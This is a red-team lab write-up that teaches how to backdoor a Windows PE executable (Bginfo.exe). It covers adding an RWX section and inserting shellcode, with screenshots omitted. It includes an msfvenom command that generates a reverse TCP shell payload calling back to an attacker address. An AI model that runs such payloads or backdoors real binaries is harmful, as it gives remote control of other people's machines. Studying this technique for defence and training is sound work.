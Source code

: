 # Backdooring PE Files with Shellcode

The purpose of this lab is to learn the Portable Executable (PE) backdooring technique by adding a new readable/writable/executable code section with our malicious shellcode to any portable executable file.

High level process of this technique:

* Add a new RWX PE section, big enough to hold our shellcode, to any .exe file&#x20;
* Generate shellcode
* Add shellcode to the newly created PE section
* Redirect execution flow of the .exe file being backdoored to the shellcode
* Redirect execution flow back to the legitimate .exe instructions

The last two steps are a bit more complicated and will have more details below.

## Groundwork

### Generate Shellcode

First of, let's generate the shellcode so we know how many bytes of space we will need in the new PE section:

```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C
```

![](<../../.gitbook/assets/image (111).png>)

Note that the shellcode size is 324 bytes - the new PE section will have to be at least that big.

### New PE Code Section

I randomly chose Bginfo.exe from sysinternals as a binary to be backdoored. Let's add a new PE section called `.code1` that will contain our shellcode - note the size is 200h bytes, so plenty for our shellcode which was only 324 bytes:

![](<../../.gitbook/assets/image (108).png>)

Note the Raw Address of the new section which is CD200 - this is where we will place the shellcode inside the file in later steps.

Let's make the new PE section writable/executable and mark it as `contains code` using CFF Explorer:

![](<../../.gitbook/assets/image (109).png>)

### Inserting Shellcode

Let's copy the shellcode over to the new code section, starting at 0xCD200 into the file:

![](<../../.gitbook/assets/image (110).png>)
